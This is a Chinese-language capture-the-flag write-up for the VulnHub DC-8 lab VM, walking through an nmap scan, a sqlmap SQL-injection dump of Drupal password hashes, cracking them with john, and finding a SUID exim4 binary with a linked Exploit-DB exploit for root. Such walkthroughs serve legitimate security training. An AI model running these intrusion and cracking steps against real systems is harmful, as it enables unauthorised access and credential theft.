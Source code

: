 # DC: 8

下载地址：https://download.vulnhub.com/dc/DC-8.zip

## 实战演练

靶场IP：`192.168.32.167`

![image-20220714101005966](../../.gitbook/assets/image-20220714101005966.png)

扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.167                                                                                                                                                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 22:10 EDT
Nmap scan report for 192.168.32.167
Host is up (0.00061s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:D5:2C:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.69 seconds

```

浏览器访问80端口

![image-20220714101136151](../../.gitbook/assets/image-20220714101136151.png)

在网页输入单引号，引发报错，说明有SQL注入漏洞

![image-20220714101615704](../../.gitbook/assets/image-20220714101615704.png)

使用sqlmap获取信息

```
┌──(root💀kali)-[~/Desktop]
└─# sqlmap -u "http://192.168.32.167/?nid=1" --batch  -D d7db -T users -C "name,pass" --dump

Database: d7db                                                                                                                                                                                                                              
Table: users
[2 entries]
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
| admin | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
| john  | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
+-------+---------------------------------------------------------+

```

使用john进行hash爆破，获取到`john：turtle`

```
┌──(root💀kali)-[~/Desktop]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
turtle           (?)

```

由于在页面没有用户登录页面，爆破目录看看

![image-20220714102330394](../../.gitbook/assets/image-20220714102330394.png)

登录成功

![image-20220714102417249](../../.gitbook/assets/image-20220714102417249.png)

导航到"联系我们"页面、"网络表单"选项卡，然后是"表单设置"。

![image-20220714103921012](../../.gitbook/assets/image-20220714103921012.png)

找SUID程序

```
$ find / -perm -u=s 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/umount
/bin/mount

```

我们找到了**/usr/sbin/exim4**，这是我们成为 root 的关键。

我们使用`uname -a`，发现系统是基于debian的，所以我们使用dpkg -l来显示他的版本。

```
$ dpkg -l exim4
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version       Architecture Description
+++-==============-=============-============-==============================================
ii  exim4          4.89-2+deb9u1 all          metapackage to ease Exim MTA (v4) installation

```

exp：https://www.exploit-db.com/download/46996

![image-20230208134453350](../../.gitbook/assets/image-20230208134453350.png)
